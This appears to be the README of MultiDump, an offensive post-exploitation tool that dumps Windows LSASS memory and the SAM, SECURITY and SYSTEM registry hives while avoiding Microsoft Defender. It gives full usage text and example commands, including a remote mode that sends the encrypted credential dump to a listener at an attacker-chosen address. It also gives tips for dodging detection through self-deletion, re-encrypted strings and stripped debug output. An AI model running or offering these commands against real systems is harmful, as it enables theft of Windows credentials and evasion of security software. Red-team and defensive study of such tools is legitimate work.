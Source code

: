 ## MultiDump

MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

Blog post: https://xre0us.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to temp directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and use it to dump LSASS
--nodump        Disable LSASS dumping
--reg           Dump SAM, SECURITY and SYSTEM hives
--delay         Increase interval between connections to for slower network speeds
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 192.168.1.100:5000
```

```bash
usage: MultiDumpHandler.py [-h] [-r REMOTE] [-l LOCAL] [--sam SAM] [--security SECURITY] [--system SYSTEM] [-k KEY] [--override-ip OVERRIDE_IP]

Handler for RemoteProcDump

options:
  -h, --help            show this help message and exit
  -r REMOTE, --remote REMOTE
                        Port to receive remote dump file
  -l LOCAL, --local LOCAL
                        Local dump file, key needed to decrypt
  --sam SAM             Local SAM save, key needed to decrypt
  --security SECURITY   Local SECURITY save, key needed to decrypt
  --system SYSTEM       Local SYSTEM save, key needed to decrypt
  -k KEY, --key KEY     Key to decrypt local file
  --override-ip OVERRIDE_IP
                        Manually specify the IP address for key generation in remote mode, for proxied connection
```

As with all LSASS related tools, Administrator/SeDebugPrivilege priviledges are required.

The handler depends on [Pypykatz](https://github.com/skelsec/pypykatz) to parse the LSASS dump, and [impacket](https://github.com/fortra/impacket) to parse the registry saves. They should be installed in your enviroment. If you see the error `All detection methods failed`, it's likely the Pypykatz version is outdated.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MalTest\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./ProcDumpHandler.py -f dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be writtern to disk to dump LSASS.

In remote mode, MultiDump connects to the handler's listener.

```bash
./MultidumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

An additional option to dump the `SAM`, `SECURITY` and `SYSTEM` hives are available with `--reg`, the decryption process is the same as LSASS dumps. This is more of a convenience feature to make post exploit information gathering easier.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommended to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `EncryptionHelper.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To further evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

---

MultiDump might get detected on Windows 10 22H2 (19045) (sort of), and I have implemented a fix for it (sort of), the investigation and implementation deserves a blog post itself: https://xre0us.io/posts/saving-lsass-from-defender/

## Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee
